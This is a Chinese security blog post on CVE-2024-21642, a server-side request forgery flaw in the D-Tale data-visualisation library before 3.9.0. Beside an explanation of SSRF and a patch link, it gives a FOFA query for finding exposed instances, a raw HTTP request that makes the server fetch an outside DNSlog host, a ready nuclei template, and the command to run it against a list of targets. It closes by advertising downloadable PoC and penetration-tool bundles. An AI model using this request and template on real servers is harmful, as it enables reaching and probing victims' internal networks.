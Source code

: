 #  CVE-2024-21642   
原创 fgz  AI与网安   2024-01-24 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
****  
**应粉丝要求小编将往期poc和我在网上收集的一些poc打包分享到网盘了。同时分享了大量电子书和护网常用工具，在文末免费获取。**  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
D-Tale SSRF漏洞  
  
  
**简单介绍下什么是SSRF漏洞（老鸟略过）：**  
  
SSRF（Server-Side Request Forgery，服务端请求伪造），是攻击者让服务端发起构造的指定请求链接造成的漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6kS1wibtcOBDNjzmAib28kbGdbnmDmwMb7lYnWU5Vj4NYOXBhia7cUgDIQ/640?wx_fmt=png&from=appmsg "")  
  
  
由于存在防火墙的防护，导致攻击者无法直接入侵内网；这时攻击者可以以服务器为跳板发起一些网络请求，从而攻击内网的应用及获取内网数据。  
  
  
**SSRF漏洞形成的原因：**  
  
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）  
  
  
大都是由于服务端提供了从其它服务器获取数据的功能，比如使用户从指定的URL web应用获取图片、下载文件、读取文件内容等。但又没有对目标地址做严格过滤与限制，导致攻击者可以传入任意的地址来让后端服务器对其发送请求，并返回对该目标地址请求的数据。  
  
  
**SSRF漏洞的危害：**  
  
1.扫内网  
  
2.向内部任意主机的任意端口发送精心构造的Payload  
  
3.D  
OS攻击（请求大文件，始终保持连接Keep-Alive Always）  
  
4.攻  
击内网的web应用，主要是使用GET参数就可以实现的攻击（比如struts2，sqli等）  
  
5.利用file协议读取本地文件  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
D-Tale <3.9.0  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6uticOS2gtV1zmIH4CAh9ksQ3wv3AVPqTUMa1pmiaX7BbfW6Nj4GalZPg/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
D-tale 是一个在2020年2月推出的库，是 Pandas 数据结构的可视化工具。它具有许多功能，对于探索性数据分析非常方便、支持交互式绘图、3d 绘图、热图、特征之间的相关性、构建自定义列等。  
D-Tale 3.9.0 之前的 D-Tale 版本存在SSRF漏洞，攻击者能够以此为跳板攻击内网。  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
"dtale/static/images/favicon.png"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6Ce2czCULNF0lZD7day59TM2kBzKyFLKB569u30jLMj8YgR21bQEHJQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包，其中  
a4xs0nop.dnslog.pw  
是DNS地址，没有的可以去注册一个http://dnslog.pw/dns/，当然任何DNSLOG都可以。  
```
GET /dtale/web-upload?type=csv&url=http%3A%2F%2Fa4xs0nop.dnslog.pw HTTP/1.1
Host: your-ip
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```  
  
  
DNS平台新增记录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd67szwkIrclGQEqTwIpudicNn6Xd40HCY6JgiaWBLysnHhiaQmVibG7916OA/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-21642

info:
  name: D-Tale SSRF漏洞
  author: fgz
  severity: critical
  description: D-tale 是一个在2020年2月推出的库，是Pandas数据结构的可视化工具。它具有许多功能，对于探索性数据分析非常方便、支持交互式绘图、3d 绘图、热图、特征之间的相关性、构建自定义列等。D-Tale 3.9.0 之前的 D-Tale 版本存在SSRF漏洞，攻击者能够以此为跳板攻击内网。
  metadata:
    max-request: 1
    fofa-query: "dtale/static/images/favicon.png"
    verified: true
requests:
  - raw:
      - |+
        GET /dtale/web-upload?type=csv&url=http%3A%2F%2F{{interactsh-url}} HTTP/1.1
        Host: {{Hostname}}
        Accept: application/json, text/plain, */*
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
        Connection: close

    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, "dns")
        condition: and
```  
  
运行POC  
```
nuclei.exe -t mypoc/cve/CVE-2024-21642.yaml -l data/D-tale.txt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNmE36xqZwDRM7ibVhryiapd6FT6OdRAFevvIHVhZeTOV1cylibqIgiasbNYFPUbObo97bmAMGgw994bA/640?wx_fmt=png&from=appmsg "")  
  
  
  
07  
  
—  
  
修复建议  
  
  
打上补丁或者升级到最新版。  
```
https://github.com/man-group/dtale/commit/954f6be1a06ff8629ead2c85c6e3f8e2196b3df2
```  
  
  
08  
  
—  
  
福利领取  
  
  
关注公众号，在公众号主页点发消息发送关键字免费领取。  
  
  
  
**后台发送【****电子书**  
**】关键字获取学习资料网盘地址**  
  
****  
**后台发送【POC】关键字获取POC网盘地址**  
  
  
**后台发送【工具】获取渗透工具包**  
  
  
